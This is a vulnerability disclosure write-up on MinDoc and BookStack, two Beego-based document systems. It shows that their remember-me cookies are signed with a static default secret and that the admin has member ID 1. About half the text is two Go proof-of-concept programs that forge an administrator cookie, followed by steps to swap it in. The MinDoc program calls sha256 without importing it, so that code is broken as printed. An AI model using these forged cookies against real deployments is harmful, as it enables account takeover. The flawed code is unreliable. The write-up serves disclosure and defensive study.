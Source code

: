 ## Vulnerable Detail

MinDoc and BookStack are document management system. They both develop their web services based on Beego. Besides, BookStack is based on MinDoc. They have same IDOR vulnerables.

### Execution track

All function are implemented by different **Controller**. **BaseController** (like Parent class) run the **Prepare()** at every beginning.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/1.png)

In **Prepare()**, if applications do not get session information, they try to use cookie to access account.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/22.png)

**GetSecureCookie()** is implemented by beego. In this function, it check if cookie has ***key*** field firstly. Then, it split this field to ***vs***, ***timestamp*** and ***sig*** by '|'. It use sha256/sha1 algorithm and secret key ***Secret*** to encrypt the combination of ***vs*** and ***timestamp***. In the end, if ciphertext == ***sig***, it return the ***vs*** after decode by base64.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/3.png)

In the next step, function **Decode(value,r)** deserialize the value into r. In this scene, ***value*** is the output of **GetSecureCookie()** and ***r*** is the object of the struct ***CookieRemember***.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/5.png)

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/6.png)

After deserialization, appications use ***remember.MemberId*** find the account information and access the account.

### Unsafe logic

In summary, the first problem is in the parameter ***Secret*** of **GetSecureCookie()**. ***Secret*** is come from **conf.GetAppKey()**. This is a static value ("mindoc"/"godoc") and do not ask for changing the value in the setup stage. The second problem is that the default member Id of the administrator is 1. Based on these problems, we can forge the cookie to access the account of the administrator.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/4.png)

### PoC

***PoC for Bookstack***

```golang
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha1"
	"encoding/base64"
	"encoding/gob"
	"fmt"
	"time"
)

type CookieRemember struct {
	MemberId int
	Account  string
	Time     time.Time
}

func main() {
	m := CookieRemember{MemberId: 1, Account: "2"}
	var network bytes.Buffer
	enc := gob.NewEncoder(&network)
	enc.Encode(m)
	encoded := base64.URLEncoding.EncodeToString([]byte(network.String()))
	fmt.Println("base64，vs:", encoded)
	s := "godoc"
	h := hmac.New(sha1.New, []byte(s))
	fmt.Fprintf(h, "%s%s", encoded, "123")
	a := fmt.Sprintf("%02x", h.Sum(nil))
	fmt.Println("sha1，sig:", a)
}
```

***PoC for Mindoc***

```golang
package main

import (
	"bytes"
	"crypto/hmac"
	"crypto/sha1"
	"encoding/base64"
	"encoding/gob"
	"fmt"
	"time"
)

type CookieRemember struct {
	MemberId int
	Account  string
	Time     time.Time
}

func main() {
	m := CookieRemember{MemberId: 1, Account: "2"}
	var network bytes.Buffer
	enc := gob.NewEncoder(&network)
	enc.Encode(m)
	encoded := base64.URLEncoding.EncodeToString([]byte(network.String()))
	fmt.Println("base64，vs:", encoded)
	s := "mindoc"
	h := hmac.New(sha256.New, []byte(s))
	fmt.Fprintf(h, "%s%s", encoded, "123")
	a := fmt.Sprintf("%02x", h.Sum(nil))
	fmt.Println("sha256，sig:", a)
 }
```
After get the fake ***sig*** and ***vs***, we can connect them by '|' (need not to condsider *timestamp*). We replace the original cookie and access the account of the administrator.

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/8.png)

![](http://www.cinderxxx.xyz/mindoc-BookStack-IDOR-Vulnerable/9.png)

